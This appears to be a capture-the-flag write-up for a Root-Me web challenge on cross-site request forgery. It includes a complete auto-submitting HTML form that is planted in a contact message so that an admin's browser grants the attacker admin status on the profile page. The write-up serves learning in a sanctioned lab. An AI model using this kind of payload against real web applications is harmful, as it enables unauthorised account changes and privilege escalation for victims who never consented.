



# CSRF 0 Protection

## Writeups

The challenge display a simple form with a login and register functionality.



Register your account first on the register page. The value is up to you as long as you remember. After registering, it says _Registered successfully_.


Now login and use the registered account. It will show you the profile. Visit the profile page. Now it has **Contact**, **Profile**, and **Private** page plus a **Logout** functionality.

A **Contact** page displays two fields. First is the email field and second is the message field.

A **Profile** page is meant to update your profile. It has a field and a status checkbox. The default behaviour of the checkbox is `disabled`. Trying to submit the form by removing the `disabled` property and adding the `checked="checked"` property will do nothing. It will says _You're not an admin_.



Meanwhile the **Private** page doesn't have a function. So we will not focus on this page for now.

Exploiting CSRF involves generating an HTML form that immitate certain behaviours such as updating an email, transfering funds from bank account, or any other actions. For this case, we want to update our profile as an admin. We will need to craft an HTML form that immitate the update profile behaviour.

Here's the HTML payload. Just copy and paste this:

```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form name="csrf" method="POST" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile">
			<input type="hidden" name="username" value="YOUR_LOGGED_IN_USERNAME"> <!-- Adjust the value to your username -->
			</br>
			<input name="status" checked="checked" type="checkbox"> <!-- Add this tag to checked the status as an admin -->
			<button type="submit">Submit</button>
		</form>
	</body>
	<script type="text/javascript">document.csrf.submit();</script> <!-- Adding JS to auto submit the form upon sending a message -->
</html>
```

Paste the HTML to the Message field on **Contact** page. Submit the form. Optionally you can fill the email field.

> After submitting the form, observe other pages. What do you get?

Yes, **Private** page now displaying the flag/password of this challenge.



Congratulations! 🎉
